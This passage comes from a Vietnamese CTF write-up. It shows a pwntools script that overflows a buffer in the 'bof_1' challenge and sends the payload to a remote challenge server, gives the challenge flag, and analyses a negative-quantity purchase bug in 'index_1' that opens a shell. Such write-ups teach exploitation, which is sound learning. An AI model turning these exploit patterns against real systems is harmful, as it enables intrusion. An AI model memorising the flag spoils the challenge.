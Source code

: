 **Lời giải**
```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./bof_1")
p = process(elf.path)
p = remote("45.77.247.61", 6001)

payload = b'x'*76 + p32(0x13141516)
p.sendlineafter(b'number: ', payload)

p.interactive()
```

**Đáp án: BKSEC{\xBuffer\xOv3rfl0w\x1s\xchiLL}**

### Bài index_1

Đây là một chương trình mua bán các vật phẩm. Với dạng bài này, các lỗ hổng như chuyển tiền âm, mua số lượng sản phẩm âm, ... rất dễ xảy ra nếu không được kiểm tra kỹ càng. 

Load file vào IDA, sau khi phân tích một chút, chúng ta cần quan tâm tới 2 đoạn mã sau đây

```c
if ( option == 6 )
{
    if ( money > 0x64 )
    {
        system("/bin/sh");
        exit(1);
    }

LABEL_x409:
    puts("Insufficient funds. You cannot afford this item.");
}
```
Với số tiền ban đầu là `money = 0x64`, chúng ta sẽ có được shell nếu như số tiền `money > 0x64`. 

```c
if ( option <= 6 )
{
    price = HIDWORD(v9[7 * option - 1]);
    total = price * num;
    if ( (int)(price * num) > money )
    {
        goto LABEL_x409;
    }

    money -= total;
    [...]
}
```

Với đoạn code này, khi mua vật phẩm, số tiền chúng ta sẽ bị trừ đi. Ở đây không có kiểm tra số lượng vật phẩm mua, vì vậy chúng ta sẽ mua số vật phẩm < 0. 
